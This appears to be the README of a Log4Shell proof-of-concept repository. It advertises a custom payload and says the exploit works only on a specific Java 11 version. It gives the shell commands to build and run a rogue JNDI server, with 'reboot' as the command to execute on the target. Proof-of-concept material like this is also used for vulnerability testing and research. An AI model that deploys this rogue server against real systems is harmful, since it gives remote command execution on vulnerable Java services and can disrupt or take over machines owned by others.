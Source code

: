 # log4shell-poc 

## How we are different
1. We provide a custom payload
2. Found no other documentation of it only working for specific Java 11

## To start JNDI server
```shell
cd rogue-jndi
mvn clean package -DskipTests
java -jar target/RogueJndi-1.1.jar --command reboot
```
